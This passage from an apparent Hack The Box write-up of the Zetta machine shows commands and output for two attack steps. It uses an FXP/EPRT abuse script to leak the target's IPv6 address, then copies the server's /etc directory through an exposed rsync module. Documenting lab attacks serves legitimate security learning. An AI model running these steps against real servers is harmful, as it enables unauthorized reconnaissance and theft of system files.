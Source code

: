 Now, we don’t actually know the IPv6 of the target host. However, the mention to RFC 2428 in the main domain could hint us at something.

After some Google-fu, I ended spoiling myself a little bit by finding the following Python script (credits to [Diefunction](https://github.com/Diefunction)) after searching for Pureftpd related exploits and information related to RFC2428

[**Diefunction/Pureftpd-FXPAbuse**
*The purpose of this tool is to abuse FXP EPRT RFC 2428 to obtain the ipv6 of the target server. git clone…*github.com](https://github.com/Diefunction/Pureftpd-FXPAbuse)

The program is quite straightforward:

1. It sets up a **File Exchange Protocol** ([FXP](https://en.wikipedia.org/wiki/File_eXchange_Protocol)) server given two parameters: lhost (our own IPv6) and lport (a local port of our choice)

1. It will login to host:port(FTP)given a set of credentials

1. If **FXP transfers** are enabled on the server, it will send a **ERPT** (see Section 2. of RFC) command to disclose the IPv6 address of the victim machine

```bash
$ python FXPAbuse.py --host 10.10.10.156 --port 21 --username <USER> --password <PASS> --lhost dead:beef:4::137a --lport 1337
[*] FXP Enabled
[+] [dead:beef::250:56ff:feb9:e494]:42826
```

Now what we have the IP, we can run another round of scan

{{< figure src="https://cdn-images-1.medium.com/max/4956/1*UHOq_8EoERH6Htgh-fN54w.png" width="800" caption="Hidden rsync service found scanning IPv6" width="800" >}}

# Rsync data exfiltration

{{< figure src="https://cdn-images-1.medium.com/max/4272/1*vhh_wbAu-BGdrWyPDLB8_w.png" width="800" caption="List of rsync modules" width="800" >}}

We notice that there are no modules listed for "Cloud sync", perhaps some hidden modules are in there. Linux filesystem is very easy to predict once you are familiar with it. We quickly realize that the/etc module is accessible.

One advanced option in rsync allows you to recursively copy the content of a directory. We use this to dump the contents /etc in our local machine.

```sh
root@kali:~/HTB/zetta_10.10.10.156/results/exploit/rsync# rsync -av --recursive rsync://[dead:beef::250:56ff:feb9:e494]:8730/etc /etc
(…)
receiving incremental file list
./
adduser.conf
adjtime
ca-certificates.conf
debconf.conf
debian_version
discover-modprobe.conf
(…)
```
